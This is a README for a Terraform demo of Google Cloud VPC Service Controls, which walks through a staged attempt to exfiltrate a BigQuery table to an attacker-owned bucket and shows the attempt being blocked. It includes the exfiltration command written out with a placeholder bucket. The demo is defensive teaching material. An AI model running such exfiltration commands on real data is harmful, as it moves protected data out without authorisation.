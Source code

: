 # VPC Service Controls Demo

## Dependencies

* `gcloud/bq`
* Org Admin Role

## Overview

![](assets/arch.png)

This terraform code will create:

* 2 projects: source and target/attacker
* Bastion in a private subnet with Private Google Access enabled
* Firewall rule allowing SSH via IAP into the Bastion
* BigQuery Dataset/Table which is loaded with test data
* Target Bucket for the exfil attempt
* All necessary IAM bindings
* Org policy forbidding external IPs on Instances
* VPC Service Control perimeter around BigQuery and GCS in the source project

## Setup

There's a few steps needed to get this demo up and running properly or you'll have a difficult time setting it up later

1. Create a Seed Project
2. Use the [project factory helper script](https://github.com/terraform-google-modules/terraform-google-project-factory/blob/master/helpers/setup-sa.sh) to create a Service Account in your seed
3. Since this service account will be creating BigQuery Datasets and Storage Buckets as well as VPC Service Control perimeters, it'll need a few more permissions. At the Org level, add `Access Context Manager Admin`, and at the Folder level, add `BigQuery Admin` and `Storage Admin` to the seed project Service Account.
4. Run `cp terraform.tfvars.sample terraform.tfvars` and then update that file with your own values.

Now you should be good to go. If not please create an issue detailing your problem so I can update this guide.

## Deployment

Since we have to first create the two projects, we have a Makefile that makes applying this easy. Just run:

```
make apply_projects
```

This will apply both source and target projects to test out VPC SC and subsequently write the IDs into the `env.sh`. This file is sourced first before the subsequent `apply`. Now you can run:

```
make apply
```


## Demo


First you'll want to get the bucket name from either the state or looking in the console:

```
terraform state show google_storage_bucket.target_bucket | grep url | cut -f2 -d'=' |sed -e 's/^ "//' -e 's/"$//'
```

Next log into the Bastion instance using `gcloud`. Notice how it will say something about tunnelling through IAP?
That's because the instance doesn't have a public IP!

```
gcloud compute ssh bastion-vm
```

Once you're on the instance, you'll notice that you're logged in as the service account with a user like `sa_1234567890@bastion-vm` which tells you that OS Login was used.

Go ahead and take a look at your config, which should show you which service account you are using. You should be able to successfully run the following command and get some BigQuery data:

```
bq head project_1_dataset.cars
```


Now lets be a bit evil! We're going to attempt to exfil the data from this host to another GCP account that we own.
Since we own it, we can grant the Service Account for the bastion Owner permissions on the target account. This was already
done for you in the Terraform in `storage.tf`. Since we are Owner of the target account, without VPC SC, we could extract the
entire table into a GCS bucket that we own, but with VPC SC protecting our BigQuery, that won't work. Let's try it anyway!
Using the bucket name you printed earlier (we'll call it BUCKET_URL), let's try to extract the cars table to the target bucket.
You should get an output that looks something like this:

```
bq extract project_1_dataset.cars BUCKET_URL/cars.csv
BigQuery error in extract operation: VPC Service Controls: Request is prohibited by organization's policy.
```

Success!! Data exfil prevented! But what about PasteBin? Or AWS S3? Or any number of services??

If you look at the subnet we put our Bastion in, you'll notice the line:

```
private_ip_google_access = true
```

You also may notice that we didn't give this thing a NAT. This means we limited the scope of egress traffic to ONLY Google APIs,
which subsequently means that you can't make outbound requests to these type of storage services over the internet. Now does this
mean you are completely safe from exfil? Absolutely not! As long as the user's machine has access to the bastion she can SCP data
from that host. There are other controls you can add as well but VPC SC mitigates a very common threat of data exfil.
